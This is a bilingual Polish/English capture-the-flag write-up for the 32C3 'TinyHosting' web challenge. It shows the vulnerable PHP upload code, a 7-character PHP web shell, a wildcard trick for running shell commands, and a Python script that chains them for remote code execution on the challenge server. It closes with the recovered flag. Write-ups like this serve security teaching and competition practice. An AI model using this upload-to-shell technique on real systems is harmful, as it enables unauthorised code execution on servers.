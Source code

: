 ## TinyHosting (web, 250p, 71 solves)

> A new file hosting service for very small files. could you pwn it?
> 
> http://136.243.194.53/

### PL
[ENG](#eng-version)

Pod http://136.243.194.53/ znajduje się formularz umożliwiający wysyłanie plików na serwer.

W kodzie HTML znajduje się komentarz:

    <!-- <a href="./?src=">src</a>-->

Po dodaniu do url `?src=1` możemy zobaczyć kod strony:

	<?php
		$savepath="files/".sha1($_SERVER['REMOTE_ADDR'].$_SERVER['HTTP_USER_AGENT'])."/";
		if(!is_dir($savepath)){
		    $oldmask = umask(0);
		    mkdir($savepath, 0777);
		    umask($oldmask);
		    touch($savepath."/index.html");
		}
		if((@$_POST['filename']) && (@$_POST['content']) ){
		    $fp = fopen("$savepath".$_POST['filename'], 'w');
		    fwrite($fp, substr($_POST['content'],0,7) );
		    fclose($fp);
		    $msg = 'File saved to <a>'.$savepath.htmlspecialchars($_POST['filename'])."</a>";
		}
	?>

Skrypt pozwala na tworzenie plików z rozszerzeniem .php. Treść jest jednak ucinana do 7 znaków. `<?php ?` generuje `Internal Server Error`.

Używająć krótkiego tagu startowego i pomijająć końcowy możemy wykonać jednoliterowe polecenie: `<?=\`*\`;`

Jeżeli stworzymy pliki o nazwach `bash` i `bash2`, `*` rozwinie się do `bash bash2 index.html`. Możemy w ten sposób wykonywać 7 znakowe skrypty shellowe:

	import requests
	import re

	url = "http://136.243.194.53/"
	user_agent = "xxx"

	t = requests.post(url, headers = {'User-agent': user_agent }, data = {"filename":"zzz.php", "content":"<?=`*`;"}).text
	[path] = re.findall('files.*/zzz.php', t)

	requests.post(url, headers = {'User-agent': user_agent }, data = {"filename":"bash", "content":'xxx'})
	requests.post(url, headers = {'User-agent': user_agent }, data = {"filename":"bash2", "content":'ls /'})
	r = requests.get(url+path)

	print r.text

W głównym katalogu znajduje się plik `file_you_want`. Możemy go pobrać poleceniem `cat /f*`. W pliku znajduje się flaga:

    32c3_Gr34T_Th1ng5_Are_D0ne_By_A_Ser13s_0f_5ma11_Th1ngs_Br0ught_T0ge7h3r

### ENG version

Under http://136.243.194.53/ there is a form which allows uploading files.

In page source there is a comment:

    <!-- <a href="./?src=">src</a>-->

After adding `?src=1` to the url php source is printed:

	<?php
		$savepath="files/".sha1($_SERVER['REMOTE_ADDR'].$_SERVER['HTTP_USER_AGENT'])."/";
		if(!is_dir($savepath)){
		    $oldmask = umask(0);
		    mkdir($savepath, 0777);
		    umask($oldmask);
		    touch($savepath."/index.html");
		}
		if((@$_POST['filename']) && (@$_POST['content']) ){
		    $fp = fopen("$savepath".$_POST['filename'], 'w');
		    fwrite($fp, substr($_POST['content'],0,7) );
		    fclose($fp);
		    $msg = 'File saved to <a>'.$savepath.htmlspecialchars($_POST['filename'])."</a>";
		}
	?>

Page doesn't block creating files with .php extension. The content is limited to 7 chars though. `<?php ?` generates `Internal Server Error`. 

By using short start tags and ommiting end tag it's possible to execute single char shell command:  ``<?=`*`;``

If we create two files: `bash` and `bash2`, `*` will expand to: `bash bash2 index.html`. This way we can execute 7 char shell scripts:

	import requests
	import re

	url = "http://136.243.194.53/"
	user_agent = "xxx"

	t = requests.post(url, headers = {'User-agent': user_agent }, data = {"filename":"zzz.php", "content":"<?=`*`;"}).text
	[path] = re.findall('files.*/zzz.php', t)

	requests.post(url, headers = {'User-agent': user_agent }, data = {"filename":"bash", "content":'xxx'})
	requests.post(url, headers = {'User-agent': user_agent }, data = {"filename":"bash2", "content":'ls /'})
	r = requests.get(url+path)

	print r.text

In root directory there is a file named `file_you_want`. We can get its contents with `cat /f*`. This file contains the flag:

    32c3_Gr34T_Th1ng5_Are_D0ne_By_A_Ser13s_0f_5ma11_Th1ngs_Br0ught_T0ge7h3r

